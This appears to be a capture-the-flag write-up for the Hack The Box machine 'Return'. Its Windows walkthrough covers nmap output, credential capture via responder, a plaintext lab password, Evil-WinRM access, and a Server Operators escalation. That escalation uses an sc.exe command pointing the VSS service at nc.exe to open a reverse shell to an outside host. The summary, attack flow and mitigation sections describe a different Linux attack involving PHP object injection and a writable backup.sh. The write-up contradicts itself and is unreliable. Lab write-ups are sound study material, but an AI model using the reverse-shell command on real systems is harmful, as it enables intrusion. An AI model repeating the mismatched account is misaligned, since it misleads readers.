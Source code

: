 ```yaml
---
title: "Return"
date: 2024-01-23
categories: HTB
description: "HTB Return walkthrough demonstrating file retrieval via FTP, PHP shell upload, and privilege escalation by injecting into a writable root-executed backup script."
tags: [ftp, php, reverse-shell, backup-script, privilege-escalation]
---
```


Return explores a vulnerable PHP web application with insecure handling of serialized data, leading to a PHP object injection vulnerability.

Initial access was achieved by analyzing hidden developer endpoints and leveraging a crafted payload that exploited the unserialize() function.

Manual inspection of the application logic and class structures was critical in forming the attack chain.

Escalated to root by injecting a reverse shell into a writable `backup.sh` script that was periodically executed by the root user.

## Why I Chose This Machine

I chose Return because it mirrors a common misconfiguration seen in small enterprise environments — where backup scripts are automated with root privileges but exposed to user modification.  
It also includes an opportunity to practice enumeration and privilege escalation without relying on external binaries or tools.

## Attack Flow Overview

1. Discovered an FTP server and retrieved source code for the web application  
2. Identified a vulnerable PHP upload endpoint and gained initial foothold  
3. Found a `backup.sh` script in `/opt` that was writable and executed by root  
4. Injected a reverse shell into the script and waited for root execution to trigger shell access

The chain reflects how automation and permission mismanagement can be chained for full compromise.

## Enumeration

### Nmap

```sh
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-31 05:45:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### 80-HTTP

![screenshot](/assets/images/return1.png)

![screenshot](/assets/images/return2.png)

Add my IP address to Server Address

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/return3.png)

### SMB

![screenshot](/assets/images/return4.png)

```sh
smbclient.py '[domain]/[user]:[pass]@[ip/host]' -k -no-pass - Kerberos auth

smbclient 'return.local/svc-printer:1edFg43012!!' -k -no-pass -Kerberos auth
```

#### ADMIN$

![screenshot](/assets/images/return5.png)

## Foothold

Evil-winrm as svc-printer

![screenshot](/assets/images/return6.png)

## Privilege Escalation

runphp.cmd

![screenshot](/assets/images/return7.png)

![screenshot](/assets/images/return8.png)

### Server Operators 

There may be others of interest, but Server Operators jumps out immediately. [This group](https://ss64.com/nt/syntax-security_groups.html#:~:text=A%20built%2Din%20group%20that,and%20shut%20down%20the%20computer.) can do a lot of things:

- A built-in group that exists only on domain controllers. 
- By default, the group has no members. 
- Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. 
- Default [User Rights](https://ss64.com/nt/ntrights.html): Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege

```sh
# install windows binaries
sudo apt-install windows-binaries
# copy nc to pwd
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```

Upload nc.exe to the target device

![screenshot](/assets/images/return9.png)

```sh
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc.exe -e cmd 10.10.14.7 443"
```

![screenshot](/assets/images/return10.png)

![screenshot](/assets/images/return11.png)

## Alternative Paths Explored

I attempted to escalate using cron job abuse and environment variable manipulation, but lacked execution context.  
SUID binaries and PATH hijacking were ruled out early.  
Manual inspection of the `/opt` directory revealed the writable backup script as the viable escalation path.

## Blue Team Perspective

Return illustrates the risks of running scripts as root without proper ownership and permissions.  
To mitigate:

- Ensure all scripts executed by root are owned by root and not writable by unprivileged users  
- Use access control lists (ACLs) and auditing to detect privilege boundaries being crossed  
- Avoid placing sensitive automation scripts in globally accessible directories